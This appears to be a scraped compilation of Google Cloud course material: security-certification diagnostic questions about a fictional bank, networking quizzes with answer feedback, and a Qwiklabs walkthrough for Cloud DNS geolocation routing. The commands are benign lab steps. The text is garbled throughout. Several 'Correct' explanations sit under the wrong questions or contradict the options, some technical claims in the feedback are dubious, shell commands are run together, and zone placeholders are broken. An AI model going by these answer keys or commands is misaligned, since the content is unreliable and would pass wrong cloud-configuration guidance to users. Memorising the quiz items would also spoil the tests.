Use Cloud Audit Logs. Filter Admin Activity audit logs for only the affected project. Use a Pub/Sub topic to stream the logs from Cloud Audit Logs to the external agency’s forensics tool.
Use the Security Command Center. Select Cloud Logging as the source, and filter by category: Admin Activity and category: System Activity. View the Source property of the Finding Details section. Use Pub/Sub topics to export the findings to the external agency’s forensics tool.
Set an organization-level policy that requires all Compute Engine VMs to be configured as Shielded VMs. Use Measured Boot enabled with Virtual Trusted Platform Module (vTPM). Validate integrity events in Cloud Monitoring and place alerts on late boot validation events.
Set an organization-level policy that requires all Compute Engine VMs to be configured as Shielded VMs. Use Secure Boot enabled with Unified Extensible Firmware Interface (UEFI). Validate integrity events in Cloud Monitoring and place alerts on launch attestation events.
Set an organization-level policy that requires all Compute Engine VMs to be configured as Shielded VMs. Use Measured Boot enabled with Virtual Trusted Platform Module (vTPM). Validate integrity events in Cloud Monitoring and place alerts on late boot validation events.
Set Cloud Logging measurement policies on the VMs. Use Cloud Logging to place alerts whenever actualMeasurements and policyMeasurements don’t match.
Set project-level policies that require all Compute Engine VMs to be configured as Shielded VMs. Use Measured Boot enabled with Virtual Trusted Platform Module (vTPM). Validate integrity events in Cloud Monitoring and place alerts on late boot validation events.
Cymbal Bank has Docker applications deployed in Google Kubernetes Engine. The bank has no offline containers. This GKE cluster is exposed to the public internet and has recently recovered from an attack. Cymbal Bank suspects that someone in the organization changed the firewall rules and has tasked you to analyze and find all details related to the firewall for the cluster. You want the most cost-effective solution for this task. What should you do?
View the GKE logs in Cloud Logging. Use the log scoping tool to filter the Firewall Rules log. Create a dataset in BigQuery to accept the logs. Export the logs to BigQuery using the command gcloud logging sinks create. Query this dataset.
View the GKE logs in the local GKE cluster. Use the kubectl Sysdig Capture tool to filter the Firewall Rules log. Create a Pub/Sub topic. Export these logs to a Pub/Sub topic using the GKE cluster. Use Dataflow to read from Pub/Sub and query the stream.
View the GKE logs in the local GKE cluster. Use Docker-explorer to explore the Docker file system. Filter and export the Firewall logs to Cloud Logging. Create a dataset in BigQuery to accept the logs. Use the command gcloud logging sinks create to export the logs to a BigQuery dataset. Query this dataset.
View the GKE logs in Cloud Logging. Use the log scoping tool to filter the Firewall Rules log. Create a Pub/Sub topic. Export the logs to a Pub/Sub topic using the command gcloud logging sinks create. Use Dataflow to read from Pub/Sub and query the stream.
Cymbal Bank has received Docker source files from its third-party developers in an Artifact Registry repository. These Docker files will be part of a CI/CD pipeline to update Cymbal Bank’s personal loan offering. The bank wants to prevent the possibility of remote users arbitrarily using the Docker files to run any code. You have been tasked with using Container Analysis’ On-Demand scanning to scan the images for a one-time update. What should you do?
Prepare a cloudbuild.yaml file. In this file, add four steps in order—build, scan, severity check, and push—specifying the location of Artifact Registry repository. Specify severity level as CRITICAL. Start the build with the command gcloud builds submit.
Prepare a cloudbuild.yaml file. In this file, add four steps in order—scan, severity check, build, and—push specifying the location of the Artifact Registry repository. Specify severity level as HIGH. Start the build with the command gcloud builds submit.
Prepare a cloudbuild.yaml file. In this file, add four steps in order—scan, build, severity check, and push—specifying the location of the Artifact Registry repository. Specify severity level as HIGH. Start the build with the command gcloud builds submit.
Prepare a cloudbuild.yaml file. In this file, add four steps in order—build, severity check, scan, and push—specifying the location of the Artifact Registry repository. Specify severity level as CRITICAL. Start the build with the command gcloud builds submit.
Cymbal Bank experienced a recent security issue. A rogue employee with admin permissions for Compute Engine assigned existing Compute Engine users some arbitrary permissions. You are tasked with finding all these arbitrary permissions. What should you do to find these permissions most efficiently?
Use Event Threat Detection and trigger the IAM Anomalous Grant detector. Publish results to Cloud Logging. In the Security Command Center, select Cloud Logging as the source, filter by category: anomalies, and sort to find the attack time window. Click on Persistence: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.
Use Event Threat Detection and configure Continuous Exports to filter and write only Firewall logs to the Security Command Center. In the Security Command Center, select Event Threat Detection as the source, filter by category: anomalies, and sort to find the attack time window. Click on Evasion: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.
Use Event Threat Detection and trigger the IAM Anomalous grants detector. Publish results to the Security Command Center. In the Security Command Center, select Event Threat Detection as the source, filter by category: iam, and sort to find the attack time window. Click on Persistence: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.
Use Event Threat Detection and configure Continuous Exports to filter and write only Firewall logs to the Security Command Center. In the Security Command Center, select Event Threat Detection as the source, filter by evasion: Iam, and sort to find the attack time window. Click on Persistence: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.
Cymbal Bank wants to use Cloud Storage and BigQuery to store safe deposit usage data. Cymbal Bank needs a cost-effective approach to auditing only Cloud Storage and BigQuery data access activities. How would you use Cloud Audit Logs to enable this analysis?
Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE at the service level for BigQuery and Cloud Storage.
Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE at the organization level.
Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE for BigQuery. All Data Access Logs are enabled for Cloud Storage by default.
Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE for Cloud Storage. All Data Access Logs are enabled for BigQuery by default.
Cymbal Bank uses Compute Engine instances for its APIs, and recently discovered bitcoin mining activities on some instances. The bank wants to detect all future mining attempts and notify the security team. The security team can view the Security Command Center and Cloud Audit Logs. How should you configure the detection and notification?
Enable the VM Manager tools suite in the Security Command Center. Perform a scan of Compute Engine instances. Publish results to Cloud Audit Logging. Create an alert in Cloud Monitoring to send notifications of suspect activities.
Enable the Web Security Scanner in the Security Command Center. Perform a scan of Compute Engine instances. Publish results to Cloud Audit Logging. Create an alert in Cloud Monitoring to send notifications for suspect activities.
Use Event Threat Detection’s threat detectors. Export findings from ‘Suspicious account activity’ and ‘Anomalous IAM behavior’ detectors and publish them to a Pub/Sub topic. Create a Cloud Run function to send notifications of suspect activities. Use Pub/Sub notifications to invoke the Cloud Run function.
Enable Anomaly Detection in the Security Command Center. Create and configure a Pub/Sub topic and an email service. Create a Cloud Run function to send email notifications for suspect activities. Export findings to a Pub/Sub topic, and use them to invoke the Cloud Run function.
Knowledge Check
Which feature of Google Cloud will Cymbal Bank use to prevent unauthorized container images from being deployed into production environments?
Cloud Build
Binary Authorization
Cloud Monitoring
Audit logs
Correct. Binary Authorization provides a system for applying attestations to container images to prevent unauthorized container images from being deployed into infrastructure.
How will Cymbal Bank be able to determine who performed a particular administrative action and when?
Cloud Monitoring
Audit logs
VPC service controls
VPC flow logs
Correct. Audit logs include a capture of all administrative actions, including the identity making the request and when it occurred.
Supporting Compliance Requirements
Diagnostic questions
Cymbal Bank’s Insurance Analyst needs to collect and store anonymous protected health information of patients from various hospitals. The information is currently stored in Cloud Storage, where each hospital has a folder that contains its own bucket. You have been tasked with collecting and storing the healthcare data from these buckets into Cymbal Bank’s Cloud Storage bucket while maintaining HIPAA compliance. What should you do?
Use the Cloud Healthcare API to read the data from the hospital buckets and use de-identification to redact the sensitive information. Use Dataflow to ingest the Cloud Healthcare API feed and write data in a new Project that contains the Cloud Storage bucket. Give the Insurance Analyst the ‘Editor’ role on this Project.
Create a new folder. Create a new Cloud Storage bucket in this folder. Give the Insurance Analyst the ‘Editor’ role on the new folder. Collect all hospital data in this bucket. Use the Google Cloud Healthcare Data Protection Toolkit to monitor this bucket.
Create a new Project. Use the Google Cloud Healthcare Data Protection Toolkit to set up a collection bucket, monitoring alerts, audit log sinks, and Forseti monitoring resources. Use Dataflow to read the data from source buckets and write to the new collection buckets. Give the Insurance Analyst the ‘Editor’ role on the collection bucket.
Create a new Project. Create a new Cloud Storage bucket in this Project with customer-supplied encryption keys (CSEK). Give the Insurance Analyst the ‘Reader’ role on the Project that contains the Cloud Storage bucket. Use the DLP API to find and mask personally identifiable information (PII) data to comply with HIPAA.
You are a cloud engineer at Cymbal Bank. You need to share the auditing and compliance standards with your CTO that cover controls over financial reporting and both public and private controls over security, availability, and confidentiality. Which compliance standard covers this?
SOX
FIPs 140-2
GDPR
PCI-DSS
Cymbal Bank plans to launch a new public website where customers can pay their equated monthly installments (EMI) using credit cards. You need to build a secure payment processing solution using Google Cloud which should follow the PCI-DSS isolation requirements. How would you architect a secure payment processing environment with Google Cloud services to follow PCI-DSS? (Select the two correct choices)
Deploy an Ubuntu Compute Engine instance. Install the libraries needed for payment solutions and encryption/decryption. Deploy using Terraform.
Create a new Google Cloud project with restricted access (separate from production environment) for the payment processing solution. Create a new Compute Engine instance and configure firewall rules, a VPN tunnel, and an internal load balancer.
Create a new Google Cloud project with restricted access (separate from production environment) for the payment processing solution. Configure firewall rules, a VPN tunnel, and a proxy Network Load Balancer for a new App Engine flexible environment.
Deploy a Linux base image from preconfigured operating system images. Install only the libraries you need. Deploy using Terraform.
Create a new Google Cloud project with restricted access (separate from production environment) for the payment processing solution. Configure firewall rules, a VPN tunnel, and an Application Load Balancer for a new Compute Engine instance.
You are designing a web application for Cymbal Bank so that customers who have credit card issues can contact dedicated support agents. Customers may enter their complete credit card number when chatting with or emailing support agents. You want to ensure compliance with PCI-DSS and prevent support agents from viewing this information in the most cost-effective way. What should you do?
Implement Cloud Data Loss Prevention using its REST API.
Detect sensitive information with Cloud Natural Language API.
Use customer-managed encryption keys (CMEK) and Cloud Key Management Service (KMS) to detect and encrypt sensitive information.
Use customer-supplied encryption keys (CSEK) and Cloud Key Management Service (KMS) to detect and encrypt sensitive information.
Cymbal Bank’s lending department stores sensitive information, such as your customers’ credit history, address and phone number, in parquet files. You need to upload this personally identifiable information (PII) to Cloud Storage so that it’s secure and compliant with ISO 27018. How should you protect this sensitive information using Cymbal Bank’s encryption keys and using the least amount of computational resources?
Generate a customer-managed encryption key (CMEK) using Cloud KMS. Decode it as a base-64 string. Upload the blob to the bucket using this key.
Generate an RSA key as a 32-byte bytestring. Decode it as a base-64 string. Upload the blob to the bucket using this key.
Generate a customer-managed encryption key (CMEK) using RSA or AES256 encryption. Decode it as a base-64 string. Upload the blob to the bucket using this key.
Generate an AES-256 key as a 32-byte bytestring. Decode it as a base-64 string. Upload the blob to the bucket using this key.
Knowledge Check
Cymbal Bank has a compliance requirement to have control over key lifecycle and rotation periods. Which Google Cloud feature can they leverage to satisfy that requirement?
CMEK with Cloud KMS
VPC service controls
Audit logs
PCI-DSS compliance
Correct. CMEK with Cloud KMS provides the ability to set key rotation and lifecycle configuration and select which keys are used for which data.
Cymbal Bank has compliance requirements to ensure certain data is stored, processed, and never transferred or used outside of Europe. Which Google Cloud feature can help them achieve this?
Audit logs
VPC service controls
Organization policy constraints
Sensitive Data Protection
Correct! VPC service controls can be used to restrict access to data to specific VPCs with subnets in specific regions, and can thereby facilitate data residency and location-based access requirements.
03 Networking in Google Cloud: Fundamentals
VPC Networking Fundamentals
Quiz
You want to lower cloud networking cost and have no problem leveraging the public internet for cross-region traffic. Which network service tier is best for you?
Pro version
Premium tier
Standard tier
Prime tier Correct! Most cost-effective, suitable for cost-conscious users willing to use public internet routing.
You want to improve network performance. You are not comfortable using the public internet to route traffic. Which service tier is the best fit?
Pro version
Premium tier
Standard tier
Prime tier Correct! Premium Tier improves performance and leverages the Google network
You are designing a virtual machine in the cloud to act as a network gateway between an external public network and a private internal network. To ensure strong security and traffic separation, what technology can you implement?
Multiple Network Interface Cards (NICs)
Cloud VPN
VLAN tagging within a single NIC
Premium Tier IPs Correct! Multiple NICs attached to separate VPC networks achieve the strongest traffic isolation and control for the gateway scenario.
Sharing VPC Networks
Quiz
Which of the following statements about VPC Network Peering is correct?
Transitive peering is not supported.
Peered VPC networks do not remain administratively separate.
Subnet IP ranges can overlap across peered VPC networks.
Both sides of a peering association are set up in one single step.
This is correct. Shared VPC allows multiple projects to share a common VPC network, with a centralized host project managing the network resources.
How does VPC Peering exchange routing information between two peered VPCs?
It relies on the default route table to forward traffic between the VPCs.
It automatically discovers and propagates routes through the Google Cloud Router.
It uses Border Gateway Protocol (BGP) to dynamically exchange routes.
It requires manual configuration of static routes in each VPC's route table.
Correct. VPC Peering automatically propagates custom dynamic routes through the Google Cloud Router, allowing each VPC to learn the routes of the other peered VPC.
Which of the following approaches to multi-project networking uses a centralized network administration model?
Cloud VPN
Cloud VPN and Shared VPC
VPC Network Peering
Shared VPC
This statement is correct. VPC Network Peering establishes a direct connection between two VPC networks, but it does not extend to other VPC networks they might be peered with.
Network Monitoring and Logging
Quiz
Sort the following steps for provisioning Shared VPC in Google Cloud:
Uptime checks
Dashboards
Ops Agent
Alerting policies
Correct! Alerting policies can email you when your web server cannot be reached.
Correct! Uptime checks test the availability of your web server and allow you to specify alerting policies.
In regards to VPC Flow Logs, which of the following statements is correct?
Logs can be used for network monitoring, forensics, real-time security analysis, and expense optimization.
Logs cannot be analyzed in BigQuery or visualized in Looker Studio.
Log updates are provided every 5 minutes.
There is a delay and performance penalty in routing logged IP packets.
Correct! VPC Flow Logs can be used for network monitoring, forensics, real-time security analysis, and expense optimization.
04 Networking in Google Cloud: Routing and Addressing
Network Routing and Addressing in Google Cloud
Lab - Cloud DNS - Traffic Steering using Geolocation Policy
Overview
Cloud DNS routing policies enable users to configure DNS based traffic steering. A user can either create a Weighted Round Robin (WRR) routing policy or a Geolocation (GEO) routing policy. You can configure routing policies by creating special ResourceRecordSets with special routing policy values.
Use WRR to specify different weights per ResourceRecordSet for the resolution of domain names. Cloud DNS routing policies help ensure that traffic is distributed across multiple IP addresses by resolving DNS requests according to the configured weights.
In this lab, you will configure and test the Geolocation routing policy. Use GEO to specify source geolocations and to provide DNS answers corresponding to those geographies. The geolocation routing policy applies the nearest match for the source location when the traffic source location doesn't match any policy items exactly.
What you learn
You will learn how to:
Launch client VMs, one in each region
Launch server VMs, one in each region except asia-south1
Create a private zone, for
example.comCreate a Geolocation routing policy using gcloud commands
Test the configuration
Architecture
Use the default VPC network to create all the virtual machines (VM) and launch client VMs in 3 Google Cloud locations: one in the United States, another in Europe, and another in Asia. To demonstrate the Geolocation routing policy behavior, you will create the server VMs only in two of those location - in the United States and in Europe. The archirtecture will look similar to what is shown in the graphic. (Note that the actual regions and zones within the United States and Europe may differ from those shown in the graphic.)

You will use Cloud DNS routing policies and create ResourceRecordSets for geo.example.com and configure the Geolocation policy to help ensure that a client request is routed to a server in the client's closest region.

Setup and requirements
Before you click the Start Lab button
Note: Read these instructions.
Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources will be made available to you.
This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.
What you need
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Time to complete the lab.
Note: If you already have your own personal Google Cloud account or project, do not use it for this lab.
Note: If you are using a Pixelbook, open an Incognito window to run this lab.
How to start your lab and sign in to the Console
Click the Start Lab button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.

Copy the username, and then click Open Google Console. The lab spins up resources, and then opens another tab that shows the Choose an account page.
Note: Open the tabs in separate windows, side-by-side.
On the Choose an account page, click Use Another Account. The Sign in page opens.

Paste the username that you copied from the Connection Details panel. Then copy and paste the password.
Note: You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Cloud console opens in this tab.
Note: You can view the menu with a list of Google Cloud Products and Services by clicking the Navigation menu at the top-left.
Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

Click Continue.
It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:

gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
gcloud auth list
Output:
xxxxxxxxxxCredentialed accounts:- @.com (active)
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Output:
xxxxxxxxxx[core]project =
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
Task 1. Enable APIs
Ensure that the Compute and the Cloud DNS APIs are enabled. In this section, you will enable the APIs manually, using gcloud commands.
Enable Compute Engine API
Run the
gcloud services enablecommand to enable the Compute Engine API:
xxxxxxxxxxgcloud services enable compute.googleapis.com
This command can take a few minutes to complete.
Enable Cloud DNS API
Run the
gcloud services enablecommand to enable the Cloud DNS API:
xxxxxxxxxxgcloud services enable dns.googleapis.com
This command can take a few minutes to complete.
Verify that the APIs are enabled
Run the
gcloud services listcommand to list all the enabled APIs. We should seecompute.googleapis.comanddns.googleapis.comin the listed output.
xxxxxxxxxxgcloud services list | grep -E 'compute|dns'
Output:
xxxxxxxxxxNAME: compute.googleapis.comNAME: dns.googleapis.com
Task 2. Configure the firewall
Before you create the client VMs and the web servers, you need to create two firewall rules.
Note: The firewall-rules create command can take a few minutes to complete. Please wait for the "Creating firewall...done" message before proceeding to the next step.
To be able to SSH into the client VMs, run the following to create a firewall rule to allow SSH traffic from Identity Aware Proxies (IAP):
xxxxxxxxxxgcloud compute firewall-rules create fw-default-iapproxy \--direction=INGRESS \--priority=1000 \--network=default \--action=ALLOW \--rules=tcp:22,icmp \--source-ranges=35.235.240.0/20
Output:
xxxxxxxxxxCreating firewall...working..Created [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-01-c5d669dffb06/global/firewalls/fw-default-iapproxy].Creating firewall...done.NAME: fw-default-iapproxyNETWORK: defaultDIRECTION: INGRESSPRIORITY: 1000ALLOW: tcp:22,icmpDENY:DISABLED: False
To allow HTTP traffic on the web servers, each web server will have a "http-server" tag associated with it. You will use this tag to apply the firewall rule only to your web servers:
xxxxxxxxxxgcloud compute firewall-rules create allow-http-traffic --direction=INGRESS --priority=1000 --network=default --action=ALLOW --rules=tcp:80 --source-ranges=0.0.0.0/0 --target-tags=http-server
Output:
xxxxxxxxxxCreating firewall...working..Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/global/firewalls/allow-http-traffic].Creating firewall...done.NAME: allow-http-trafficNETWORK: defaultDIRECTION: INGRESSPRIORITY: 1000ALLOW: tcp:80DENY:DISABLED: False
Click Check my progress to verify the objective.
Configure the Firewall
Task 3. Launch client VMs
Now that the APIs are enabled, and the firewall rules are in place, the next step is to set up the environment. In this section, you will create 3 client VMs, one in each region.
Launch a client in the United States
Run the
gcloud compute instances createcommand to create the client VMs:
xxxxxxxxxxgcloud compute instances create us-client-vm --machine-type=e2-micro --zone "Zone 1"
This command can take a few minutes to complete. Please wait for a "Created" message before moving to the next step. Note that you may see a different zone in gcloud than in the sample output shown below.
Output:
xxxxxxxxxxCreated [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/us-east1-b/instances/us-client-vm].NAME: us-client-vmZONE: "Zone 1"MACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 10.142.0.2EXTERNAL_IP: 34.138.90.216STATUS: RUNNING
Launch a client in Europe
Run the following to create the client VMs:
xxxxxxxxxxgcloud compute instances create europe-client-vm --machine-type=e2-micro --zone ""Zone 2""
Note that you may see a different zone in gcloud than in the sample output shown below.
Output:
xxxxxxxxxxCreated [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/europe-west2-a/instances/europe-client-vm].NAME: europe-client-vmZONE: "Zone 2"MACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 10.154.0.2EXTERNAL_IP: 35.242.164.177STATUS: RUNNING
Launch a client in Asia
Run the following to create the client VMs:
xxxxxxxxxxgcloud compute instances create asia-client-vm --machine-type=e2-micro --zone ""Zone 3""
Note that you may see a different zone in gcloud than in the sample output shown below.
Output:
xxxxxxxxxxCreated [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/asia-south1-a/instances/asia-client-vm].NAME: asia-client-vmZONE: "Zone 3"MACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 10.160.0.2EXTERNAL_IP: 34.93.179.212STATUS: RUNNING
Click Check my progress to verify the objective.
Launch client VMs
Task 4. Launch Server VMs
Now that the client VM's are up and running, the next step is to create the server VMs. You will use a startup script to configure and set up the web servers. As mentioned earlier, you will create the server VMs only in 2 regions: us-east1 and europe-west2.
Run the
gcloud compute instances createcommand to create the server VMs. The compute instance create command can take a few minutes to complete. Please wait for a "Created" message before moving to the next step.
Launch server in the United States
Run the following command:
xxxxxxxxxxgcloud compute instances create us-web-vm \--machine-type=e2-micro \--zone="Zone 1" \--network=default \--subnet=default \--tags=http-server \--metadata=startup-script='#! /bin/bashapt-get updateapt-get install apache2 -yecho "Page served from: "Region 1"" | \tee /var/www/html/index.htmlsystemctl restart apache2'
Note that you may see a different zone in gcloud than in the sample output shown below.
Output:
xxxxxxxxxxCreated [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/us-east1-b/instances/us-web-vm].NAME: us-web-vmZONE: "Zone 1"MACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 10.142.0.3EXTERNAL_IP: 34.73.110.151STATUS: RUNNING
Launch server in Europe
Run the following to command:
xxxxxxxxxxgcloud compute instances create europe-web-vm \--machine-type=e2-micro \--zone="Zone 2" \--network=default \--subnet=default \--tags=http-server \--metadata=startup-script='#! /bin/bashapt-get updateapt-get install apache2 -yecho "Page served from: "Zone 2"" | \tee /var/www/html/index.htmlsystemctl restart apache2'
Note that you may see a different zone in gcloud than in the sample output shown below.
Output:
xxxxxxxxxxCreated [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/europe-west2-a/instances/europe-web-vm].NAME: europe-web-vmZONE: "Zone 2"MACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 10.154.0.3EXTERNAL_IP: 35.234.156.62STATUS: RUNNING
Click Check my progress to verify the objective.
Launch Server VMs
Task 5. Setting up environment variables
Before you configure Cloud DNS, note the Internal IP addresses of the web servers. You need these IPs to create the routing policy. In this section, you will use the gcloud compute instances describe command to save the internal IP addresses as environment variables.
Command to save IP address for the VM in the United States
xxxxxxxxxxexport US_WEB_IP=$(gcloud compute instances describe us-web-vm --zone="Zone 1" --format="value(networkInterfaces.networkIP)")
Command to save the IP address for the VM in Europe:
xxxxxxxxxxexport EUROPE_WEB_IP=$(gcloud compute instances describe europe-web-vm --zone="Zone 2" --format="value(networkInterfaces.networkIP)")
Task 6. Create the private zone
Now that your client and server VMs are running, it's time to configure the DNS settings. Before creating the A records for the web servers, you need to create the Cloud DNS Private Zone.
For this lab, use the example.com domain name for the Cloud DNS zone.
Use the
gcloud dns managed-zones createcommand to create the zone:
xxxxxxxxxxgcloud dns managed-zones create example --description=test --dns-name=example.com --networks=default --visibility=private
Output:
xxxxxxxxxxCreated [https://dns.googleapis.com/dns/v1/projects/routing-policy-lab/managedZones/example].
Task 7. Create Cloud DNS Routing Policy
In this section, configure the Cloud DNS Geolocation Routing Policy. You will create a record set in the example.com zone that you created in the previous section.
Create
Use the
gcloud dns record-sets createcommand to create the geo.example.com recordset:
xxxxxxxxxxgcloud dns record-sets create geo.example.com \--ttl=5 --type=A --zone=example \--routing-policy-type=GEO \--routing-policy-data=""Region 1"=$US_WEB_IP;"Region 2"=$EUROPE_WEB_IP"
You are creating an A record with a Time to Live (TTL) of 5 seconds. The policy type is GEO, and the routing_policy_data field accepts a semicolon-delimited list of the format ${region}:${rrdata},${rrdata}.
Output:
xxxxxxxxxxNAME: geo.example.com.TYPE: ATTL: 5DATA: "filled at lab start": 10.142.0.3; "Region 2": 10.154.0.3
Verify
Use the
dns record-sets listcommand to verify that thegeo.example.comDNS record is configured as expected:
xxxxxxxxxxgcloud dns record-sets list --zone=example
The output shows that an A record with a TTL of 5 is created for geo.example.com, and the data matches our server set up in each region.
Note that in gcloud, the DATA value under geo.example.com may include United States and Europe regions that differ from the sample output below.
Output:
xNAME: example.com.TYPE: NSTTL: 21600DATA: ns-gcp-private.googledomains.com.NAME: example.com.TYPE: SOATTL: 21600DATA: ns-gcp-private.googledomains.com. cloud-dns-hostmaster.google.com. 1 21600 3600 259200 300NAME: geo.example.com.TYPE: ATTL: 5DATA: "REGION": 10.142.0.3; "Region 2": 10.154.0.3
Click Check my progress to verify the objective.
Create the Private Zone
Task 8. Testing
It's time to test the configuration. In this section, you will SSH into all the client VMs. Since all of the web server VMs are behind the geo.example.com domain, you will use CURL command to access this endpoint.
Since you are using a Geolocation policy, the expected result is that:
The client in the US should always get a response from the
<Zone 1region.The client in Europe should always get a response from the
Zone 2region.
Testing from the client VM in Europe
Use the
gcloud compute sshcommand to log into the client VM:
xxxxxxxxxxgcloud compute ssh europe-client-vm --zone "Zone 2" --tunnel-through-iap
Follow prompts to SSH into the machine. When asked to enter the passphrase, leave the field blank and press the Enter key twice.
Once complete, the command line should change to "user_name@europe-client-vm:~$"
Output:
xxxxxxxxxxWarning: Permanently added 'compute.4621780534809863836' (ECDSA) to the list of known hosts.Linux europe-client-vm 4.19.0-18-cloud-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64The programs included with the Debian GNU/Linux system are free software;the exact distribution terms for each program are described in theindividual files in /usr/share/doc/*/copyright.Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extentpermitted by applicable law.user_name@europe-client-vm:~$
Use curl to access the web server
Now that you are in the client VM, use the
CURLcommand to access thegeo.example.comendpoint. The loop is configured to run the command ten times with a sleep timer of 6 seconds:
xxxxxxxxxxfor i in {1..10}; do echo $i; curl geo.example.com; sleep 6; done
Since the TTL on the DNS record is set to 5 seconds, a sleep timer of 6 seconds has been added. The sleep timer will make sure that you get an uncached DNS response for each cURL request. This command will take approximately one minute to complete.
The expected output is "Page served from: Zone 2
xxxxxxxxxx1Page served from: "Zone 2"2Page served from: "Zone 2"3Page served from: "Zone 2"4Page served from: "Zone 2"5Page served from: "Zone 2"6Page served from: "Zone 2"7Page served from: "Zone 2"8Page served from: "Zone 2"9Page served from: "Zone 2"10Page served from: "Zone 2"
Run this test multiple times and analyze the output to see which server is responding to the request. The client should always receive a response from a server in the client's region.
Getting back to Cloud Shell
Once you have run the test multiple times, exit the client VM in Europe by typing "
exit" in the VM's command prompt. This will bring you back to the Cloud Shell console.
Testing from the client VM in us-east1
Now perform the same test from the client VM in the US.
Use the
gcloudcommand below to SSH into the us-client-vm:
xxxxxxxxxxgcloud compute ssh us-client-vm --zone "Zone 1" --tunnel-through-iap
Use the
curlcommand to accessgeo.example.com:
xxxxxxxxxxfor i in {1..10}; do echo $i; curl geo.example.com; sleep 6; done
Now analyze the output to see which server is responding to the request. The client should always receive a response from a server in the client's region. The expected output is "Page served from:
<filled at lab start>".Once you have run the test multiple times, exit the client VM in the US by typing "
exit" in the VM's command prompt.
Testing from the client VM in Asia
So far you have tested the setup from the United States and Europe. You have servers running in both the regions and have matching record sets for both the regions in Cloud DNS routing policy. There is no matching policy item for the region within Asia (selected earlier) in the Cloud DNS routing policy.
The Geolocation policy will apply a "nearest" match for source location when the source of the traffic doesn't match any policy items exactly. This means that the Asia client should be directed to the nearest web server.
In this section, you will resolve the geo.example.com domain from the client VM in Asia and will analyze the response.
SSH into the asia-client-vm. For
<SELECTED-ZONE>, use the zone that you used to create the Asia client.
xxxxxxxxxxgcloud compute ssh asia-client-vm --zone <SELECTED-ZONE> --tunnel-through-iap
Then access geo.example.com:
xxxxxxxxxxfor i in {1..10}; do echo $i; curl geo.example.com; sleep 6; done
Analyze the output to see which server is responding to the request. Since there is no policy item for any of the Asia regions, Cloud DNS will direct the client to the nearest server.
Once you have run the test multiple times, exit the client VM in Asia by typing "
exit" in the VM's command prompt.
Task 9. Delete lab resources
Although all resources you used in this lab will be deleted when you finish, it is good practice to remove resources you no longer need to avoid unnecessary charges.
The following
gcloudcommands will delete all the resources that were created in the lab. (Note thatSELECTED-ZONEis the Asia zone that you wrote down earlier.)
xxxxxxxxxx#delete VMSgcloud compute instances delete -q us-client-vm --zone "ZONE"gcloud compute instances delete -q us-web-vm --zone "ZONE"gcloud compute instances delete -q europe-client-vm --zone "Zone 2"gcloud compute instances delete -q europe-web-vm --zone "Zone 2"gcloud compute instances delete -q asia-client-vm --zone SELECTED-ZONE#delete FW rulesgcloud compute firewall-rules delete -q allow-http-trafficgcloud compute firewall-rules delete fw-default-iapproxy#delete record setgcloud dns record-sets delete geo.example.com --type=A --zone=example#delete private zonegcloud dns managed-zones delete example
Congratulations
In this lab, you configured and used Cloud DNS routing policies with Geolocation routing policy. You also verified the configuration and behavior of the Cloud DNS routing policy by observing the HTTP response when accessing the web servers.
Quiz
To set up hybrid deployments for DNS resolution, which type of DNS policy should you use?
Server policy
Response policy
Traffic policy
Routing policy
You must create a VM that has an IPv6 address. How do you do it?
Create a single-stack subnet, and create the VM with an IPv6 address.
Create a single-stack subnet with IPv6 enabled, and then create the VM with an IPv4 address.
Create a dual-stack subnet, and create the VM with an IPv6 address.
Create a single-stack network, and create the VM with an IPv6 address.
Private Connection Options
LAB - Implement Private Google Access and Cloud NAT
Overview
In this lab, you implement Private Google Access and Cloud NAT for a VM instance that doesn't have an external IP address. Then, you verify access to public IP addresses of Google APIs and services and other connections to the internet.
VM instances without external IP addresses are isolated from external networks. Using Cloud NAT, these instances can access the internet for updates and patches, and in some cases, for bootstrapping. As a managed service, Cloud NAT provides high availability without user management and intervention.
Objectives
In this lab, you learn how to perform the following tasks:
Configure a VM instance that doesn't have an external IP address
